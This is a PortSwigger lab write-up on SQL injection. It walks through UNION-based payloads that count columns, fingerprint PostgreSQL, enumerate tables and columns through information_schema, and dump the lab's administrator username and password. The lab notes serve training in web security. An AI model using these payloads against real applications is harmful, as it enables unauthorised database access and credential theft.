

**SQL injection attack, listing the database contents on non-Oracle databases**
*-Goal: determine the name of tables, then retrieve username and password in order to log in as `administrator`*
*- Hint: https://portswigger.net/web-security/sql-injection/cheat-sheet*

*-Analysis:*
1. Determine the number of the columns:
` ' order by 3--`: we get error, so there are 2 columns
2. Determine the data type of columns:
` ' UNION SELECT 'a','a'--`: no error page, cause two columns are text type
3. Output the version:
` ' UNION SELECT @@version,NULL--`: error page --> not Microsoft

` ' UNION SELECT version(),NULL--`
PostgreSQL 12.20 (Ubuntu 12.20-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit
4. Output the list of tables name from database
` ' UNION SELECT table_name, NULL FROM information_schema.tables--`: 
--> we found this table `users_trtqsn`
5. Output the column name of the table we found previous:
 ` ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_trtqsn'--`:  
 --> we found this `username_aoynjl` and  `password_nylooq`
6. Output the username and password
` ' UNION SELECT username_aoynjl, password_nylooq from users_trtqsn--`:
--> we found this 
username: `administrator` 
password: `z9ospvymipxga1i61v0e`

*`LAB SOLVED`*

